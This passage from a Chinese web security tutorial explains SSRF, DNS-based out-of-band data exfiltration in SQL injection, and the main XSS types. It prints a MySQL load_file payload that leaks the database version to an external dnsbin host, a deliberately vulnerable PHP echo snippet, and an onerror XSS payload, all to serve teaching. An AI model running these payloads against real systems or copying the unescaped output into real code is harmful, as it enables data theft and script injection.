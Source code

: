 - 除了文件读取时容易造成 SSRF 漏洞（例如文档、图片、音视频处理等在接受文件路径输入参数时很可能同时支持本地和网络协议 URL）
- 数据库的一些内置功能（加载网络地址时会自动对其中包含的域名字段进行 DNS 查询）也会被利用在 SQL 注入的过程中获取数据

#### SQL 注入过程中的 SSRF
以 sqlmap 为例，在其众多数据获取技巧中提供了一个命令行参数 `--dns-domain` 就是实现了利用 SQL 数据库在执行一些特定函数时会对其中传入的参数当作域名进行查询这个特性的 **基于 DNS 的带外数据回传**

攻击者通过一系列精心构造的域名查询记录就可以拼接还原出从数据库表中读取的数据。攻击者除了可以自己搭建 DNS 服务器来捕获这些 DNS 查询数据之外，还可以使用一些开放的 DNS 查询监控服务，例如 [dnsbin.zhack.ca](http://dnsbin.zhack.ca/) 。以 MySQL 为例，以下是一个典型的使用 `基于 DNS 的带外数据回传` 技术的 SQL 注入代码片段在数据库中得到执行时的完整形态。
```PHP
select load_file(concat('\\\\', version(), '.6a7087aa4e3b2c743ed1.d.zhack.ca\\1.txt'));
```
成功执行上述 SQL 代码将会在 dnsbin 的 DNS 解析服务器上留下一条 DNS 查询记录

需要注意的是，MySQL 的全局配置参数 [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) 的设定会影响到 `load_file()` 是否解析参数中包含的域名。在从 MySQL 官网下载的 5.7.16 之前独立安装包版本或 5.7.5 之前所有版本的 `secure_file_priv` 缺省设置均为空，则上述攻击代码能得手。但如果设置为 NULL 则会禁用文件读取操作，如果设置为指定目录，则只能从指定目录读取文件。

SSRF 漏洞既可以发生在服务器端脚本所在的主机，也可能发生在后台服务（如上文中举例的数据库）主机。  
SSRF 漏洞一旦被利用可以被用来进行内网服务发现和扫描、作为跳板攻击内网或本地应用程序和 Web 应用等，甚至是任意读取 SSRF 漏洞触发所在主机上的本地文件。  
防御 SSRF 漏洞的基本方法除了输入相关的通用漏洞防御方法之外，对于重要的后台服务启用身份认证和二次鉴权可以有效的缓解 SSRF 的漏洞利用效果。
## 输出相关漏洞
### 跨站点脚本
跨站点脚本（Cross-Site Scripting，XSS）的简写没有采用 `CSS` 是为了避免和另一个术语 `层叠样式表`（Cascading Style Sheet） 产生歧义。

#### 反射型 XSS
```php
<?php
$msg = $_GET['msg'];
// 用户提交的消息被作为关键字提交到后台进行信息检索
// 页面同时把用户输入的搜索关键词展示出来
echo "<div>$msg</div>";
```
上述代码逻辑非常简单，当用户提交“检索消息”给网站后，网站展示搜索结果时「原样输出」用户的搜索关键词。    
如果用户搜索内容是 `<img src=1 onerror=alert(1)>` PHP 输出给浏览器的内容就将变为：`<div><img src=1 onerror=alert(1)></div>`，这段 HTML 代码被浏览器解释执行的结果就是执行了其中包含的 `JavaScript` 代码。这就是一个最基本的 XSS 漏洞利用

反射型 XSS 只是简单地把用户输入的数据“反射”给浏览器。也就是说，攻击者往往需要诱骗用户“点击”一个恶意链接，链接中包含 XSS 代码，才能攻击成功。反射型 XSS 也被称为“非持久型 XSS”。

#### 存储型 XSS 
存储型 XSS 会把用户输入的数据“存储”在服务器或客户端（例如：Cookie、LocalStorage、Web SQL等）。  
“存储”在服务器上的 XSS 代码具有很强的利用稳定性。  
存储型 XSS 也被称为 持久型 XSS。

一个典型场景就是攻击者写下一篇包含 XSS 代码的博客文章，文章发表后，所有访问该博客文章的用户，都会在他们的浏览器中执行 XSS 中包含的恶意脚本代码。  

基于客户端的存储型 XSS 是伴随着 HTML 5 技术的普及而发展起来的，HTML5 提供了两种新的本地存储方案，sessionStorage 和 localStorage，统称 WebStorage。  
相比较于主流浏览器的 Cookie 存储数据上限容量为 4 KB，利用 localStorage 可以存储高达 5 MB 的数据。  
将 XSS 持久化存储在客户端虽然不及存储在服务器上稳定性高（用户一旦清空浏览器本地缓存就会删除 localStorage 和 cookie 等客户端存储中的所有数据），但和服务端存储型 XSS 一样：只要用户再次打开存在 XSS 漏洞的网站，攻击者预留在这个网站的 XSS 漏洞都可以被自动载入执行。
#### 基于文档对象模型的 XSS（DOM Based XSS）
从漏洞触发原理上来看，DOM Based XSS 的整个漏洞利用过程可以完全不依赖于服务器端脚本的「输出」操作，通过修改页面的 DOM 节点形成 XSS。随着客户端存储型 XSS的出现，利用客户端存储技术也可以实现 DOM Based XSS。不变的是依然不需要依赖于服务端脚本「输出」操作和都会篡改 DOM，变化的只是 XSS 的来源不再是反射方式，也可以是持久化存储方式了。  
